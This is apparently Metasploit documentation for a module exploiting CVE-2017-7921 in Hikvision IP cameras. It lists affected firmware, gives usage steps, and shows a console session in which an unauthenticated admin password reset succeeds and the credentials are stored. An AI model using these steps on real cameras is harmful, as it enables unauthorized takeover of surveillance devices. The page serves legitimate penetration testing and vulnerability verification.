 ## Vulnerable Application

Many Hikvision IP cameras contain backdoor credentials that allow unauthenticated impersonation of any
configured user account. This allows an attacker to bypass all security on the camera and
gain full admin access, allowing them to thereby completely control the camera and modify
any setting or retrieve sensitive information.

This module allows the attacker to perform an unauthenticated password change on
any vulnerable Hikvision IP Camera using these backdoor credentials. This can then be
used to gain full administrative access to the affected device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `check`
1. `set ID <id of user whose password you want to reset from "check" output>`
1. `run`
1. You should get a message that the password for the user has been successfully changed.

## Options
### STORE_CRED
This option allows you to store the user and password credentials in the Metasploit database for further use.

## Scenarios

### Hikvision unauthenticated password reset of the admin user with id=1

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for admin...
[+] Password reset for admin was successfully completed!
[*] Please log in with your new password: Pa$$W0rd
[*] Credentials for admin were added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```
